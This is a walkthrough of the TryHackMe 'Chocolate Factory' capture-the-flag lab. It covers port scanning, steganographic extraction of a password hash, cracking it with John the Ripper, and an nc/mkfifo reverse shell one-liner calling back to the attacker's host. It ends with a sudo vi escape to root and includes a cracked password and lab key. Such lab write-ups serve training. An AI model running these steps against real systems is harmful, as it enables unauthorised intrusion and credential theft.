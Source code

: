 # Chocolate Factory (THM)

- https://tryhackme.com/room/chocolatefactory
- March 7, 2023
- easy

---

## Enumeration

### Nmap

- there are many ports open

```
PORT    STATE SERVICE     REASON  VERSION
21/tcp  open  ftp         syn-ack vsftpd 3.0.3
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?    syn-ack
101/tcp open  hostname?   syn-ack
102/tcp open  iso-tsap?   syn-ack
103/tcp open  gppitnp?    syn-ack
104/tcp open  acr-nema?   syn-ack
105/tcp open  csnet-ns?   syn-ack
106/tcp open  pop3pw?     syn-ack
107/tcp open  rtelnet?    syn-ack
108/tcp open  snagas?     syn-ack
109/tcp open  pop2?       syn-ack
110/tcp open  pop3?       syn-ack
111/tcp open  rpcbind?    syn-ack
112/tcp open  mcidas?     syn-ack
113/tcp open  ident?      syn-ack
114/tcp open  audionews?  syn-ack
115/tcp open  sftp?       syn-ack
116/tcp open  ansanotify? syn-ack
117/tcp open  uucp-path?  syn-ack
118/tcp open  sqlserv?    syn-ack
119/tcp open  nntp?       syn-ack
120/tcp open  cfdptkt?    syn-ack
121/tcp open  erpc?       syn-ack
122/tcp open  smakynet?   syn-ack
123/tcp open  ntp?        syn-ack
124/tcp open  ansatrader? syn-ack
125/tcp open  locus-map?  syn-ack
```

- Interesting ports

### 113

```
113/tcp open  ident?     syn-ack
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, GetRequest, Help, NULL, SSLSessionReq, TerminalServer:
|_    http://localhost/key_rev_key <- You will find the key here!!!
```

- from this, download the key from

```
wget http://$IP/key_rev_key
```

- then , `strings key_rev_key`

```
Enter your name:
laksdhfas
 congratulations you have found the key:
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
;*3$"
```

- `chmod +x key_rev_key` and
- execute `./key_rev_key'
- Enter your name -> `laksdhfas`
- get key (still don't know what for)

### FTP

- enter as anonymous login and get `gum_room.jpg`
- with binwalk, there may be some file hidden
- `stegoveritas gum_room.jpg`
- `steghide_526f90df7038c88b4801de94e84d65b3.bin` extracted
- check file for this, it is ASCII text and open it and found that it is base64 encoded text
- base64 decoded and found that it is passwd file and saved it into passwd
- one interested user

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

- crack with john

```sh
john charile.hash --wordlist=/usr/share/wordlists/rockyou.txt
# cn7824   (charlie)
```

- found password
- enter ssh and it is not ssh password

### HTTP

- directory brute forcing with ffuf
- nothing interesting found
- home page is just login page
- login with above credentials from above
- redirect to a page where code execution can be done

## User Access

- to get reverse shell
- listen with nc and get request to

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $TUN_IP 4242 >/tmp/f
```

- get `www-data` user access
- look around in the machine like suid bits, id, /etc/crontab, /etc/passwd, users under /home
- under `/home/charlie/`

```sh
www-data@chocolate-factory:/home/charlie$ ls -lah
ls -lah
total 40K
drwxr-xr-x 5 charlie charley 4.0K Oct  7  2020 .
drwxr-xr-x 3 root    root    4.0K Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3.7K Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4.0K Sep  1  2020 .cache
drwx------ 3 charlie charley 4.0K Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4.0K Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1.7K Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
www-data@chocolate-factory:/home/charlie$ file *
file *
teleport:     PEM RSA private key
teleport.pub: OpenSSH RSA public key
user.txt:     regular file, no read permission
```

- teleport -> RSA private key
- read teleport and save as id_rsa in local machine
- chmod to 600
- enter as charlie with id_rsa

```sh
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

## Root Access

- to get root access

```sh
sudo vi -c ':!/bin/sh' /dev/null
```

- become root
- user flag is straight through to read
- for root flag, copy the root.py file
- print(mess) -> to print the flag
- enter key from above and get the flag

---
